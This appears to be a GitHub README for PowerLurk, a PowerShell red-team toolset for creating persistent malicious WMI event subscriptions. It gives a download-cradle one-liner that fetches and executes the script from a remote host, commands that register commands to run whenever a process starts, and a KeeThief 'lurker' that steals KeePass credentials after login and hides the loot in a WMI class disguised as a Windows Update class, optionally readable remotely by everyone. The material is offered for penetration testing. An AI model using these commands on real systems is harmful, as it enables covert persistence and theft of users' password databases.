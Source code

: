 # PowerLurk

PowerLurk is a PowerShell toolset for building malicious WMI Event Subsriptions. The goal is to make WMI events easier to fire off during a penetration test or red team engagement. Please see my post **Creeping on Users with WMI Events: Introducing PowerLurk** for more detailed information: https://pentestarmoury.com/2016/07/13/151/

To use PowerLurk, you must import the PowerLurk.ps1 module into your instance of PowerShell. This can be done a couple of ways:

Import locally

```PS> powershell.exe -NoP -Exec ByPass -C Import-Module c:\\temp\\PowerLurk.ps1```

Download Cradle

```PS> powershell.exe -NoP -C "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/PowerLurk.ps1'); Get-WmiEvent"```

## Get-WmiEvent

By default, Get-WmiEvent queries WMI for all __FilterToConsumerBinding instances and associated __EventFilter, and __EventConsumer instances. 
Objects returned can be deleted by piping to Remove-WmiObject.

Return all active WMI event objects with the name 'RedTeamEvent'

```Get-WmiEvent -Name RedTeamEvent```

Twitter - @sw4mp_fox
Delete 'RedTeamEvent' WMI event objects

```Get-WmiEvent -Name RedTeamEvent | Remove-WmiObject```

## Register-MaliciousWmiEvent

This cmdlet is the core of PowerLurk. It takes a command, script, or scriptblock as the action and a precanned trigger then creates the WMI Filter, Consumer, and FilterToConsumerBinding required for a fully functional Permanent WMI Event Subscription. A number of WMI event triggers, or filters, are preconfigured. The trigger must be specified with the -Trigger parameter. There are three consumers to choose from, PermanentCommand, PermanentScript, and LocalScriptBLock. Example usage:

Write the notepad.exe process ID to C:\temp\log.txt whenever notepad.exe starts

```Register-MaliciousWmiEvent -EventName LogNotepad -PermanentCommand “cmd.exe /c echo %ProcessId% >> c:\\temp\\log.txt” -Trigger ProcessStart -ProcessName notepad.exe```

Cleanup Malicious WMI Event

```Get-WmiEvent -Name LogNotepad | Remove-WmiObject```

## Add-KeeThiefLurker

creates a permanent WMI event that will execute KeeThief (See @Harmj0y's KeeThief at https://github.com/adaptivethreat/KeeThief) 4 minutes after the 'keepass' process starts. This gives the target time to log into their KeePass database. 

The KeeThief logic and its output are either stored in a custom WMI namespace and class or regsitry values. If a custom 
WMI namespace and class are selected, you have the option to expose that namespace so that it can be read remotely 
by 'Everyone'. Registry path and value names are customizable using the associated switches; however, this is optional as
defaults are set. Example usage:

Add KeeThiefLurker event using WMI class storage 

```Add-KeeThiefLurker -EventName KeeThief -WMI```

Query custom WMI class

```Get-WmiObject -Namespace root\software win32_WindowsUpdate -List```

Extract KeeThief output from WMI class

```[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($(Get-WmiObject -Namespace root\software win32_WindowsUpdate -List).Properties['Output'].value))```

Cleanup KeeThiefLurker

```Remove-KeeThiefLurker -EventName KeeThief -WMI```

Twitter - @sw4mp_f0x
